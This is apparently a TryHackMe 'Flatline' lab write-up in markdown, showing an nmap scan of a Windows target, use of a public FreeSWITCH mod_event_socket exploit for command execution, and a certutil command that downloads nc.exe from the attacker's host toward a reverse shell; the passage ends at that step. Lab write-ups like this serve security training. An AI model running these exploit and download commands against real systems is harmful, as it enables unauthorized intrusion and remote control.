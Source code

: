 ```yaml
---
title: Flatline Writeup
published: false
categories: writeups
tags: TryHackMe
challenge: https://tryhackme.com/room/flatline
---
```

**Challenge link** => [{{ page.challenge }}]({{ page.challenge }})

Today, we'll try a *free* room from **Nekrotic**

Nekrotick's [website](https://nekrotic.co.uk/)

---

Let's start by deploying the vm, and pinging the IP so we can check if we set everything up properly.

NMAP result:
```sh
┌[Gal1leoHackingStation]─[12:40-18/04]─[/home/gal1leo/TryHackMe/Flatline]
└╼root$nmap -sC -sV -Pn 10.10.251.214

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2022-04-18 12:40 IST
Nmap scan report for 10.10.251.214
Host is up (0.042s latency).
Not shown: 998 filtered ports
PORT     STATE SERVICE          VERSION

3389/tcp open  ms-wbt-server    Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: WIN-EOM4PK0578N
|   NetBIOS_Domain_Name: WIN-EOM4PK0578N
|   NetBIOS_Computer_Name: WIN-EOM4PK0578N
|   DNS_Domain_Name: WIN-EOM4PK0578N
|   DNS_Computer_Name: WIN-EOM4PK0578N
|   Product_Version: 10.0.17763
|_  System_Time: 2022-04-18T11:41:08+00:00
| ssl-cert: Subject: commonName=WIN-EOM4PK0578N
| Not valid before: 2022-04-17T11:22:10
|_Not valid after:  2022-10-17T11:22:10
|_ssl-date: 2022-04-18T11:41:09+00:00; 0s from scanner time.

8021/tcp open  freeswitch-event FreeSWITCH mod_event_socket
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

![](/assets/images/2022-04-18_12-48.png)

```sh
┌[Gal1leoHackingStation]─[12:46-18/04]─[/home/gal1leo/TryHackMe/Flatline]
└╼root$searchsploit -x 47799 > exploit.py
┌[Gal1leoHackingStation]─[12:47-18/04]─[/home/gal1leo/TryHackMe/Flatline]
└╼root$nano exploit.py 
```

```sh
└╼root$python3 exploit.py 10.10.251.214 dir
Authenticated
Content-Type: api/response
Content-Length: 2346
```
Looks like we can run commands on the system using the POC, but we don't see any output. Let's try get a reverse shell
![](/assets/images/2022-04-18_13-03.png)
```sh
┌[Gal1leoHackingStation]─[13:01-18/04]─[/home/gal1leo/TryHackMe/Flatline]
└╼root$python3 exploit.py 10.10.251.214 "certutil.exe -urlcache -f http://10.8.52.124:4242/nc.exe nc.exe"
```
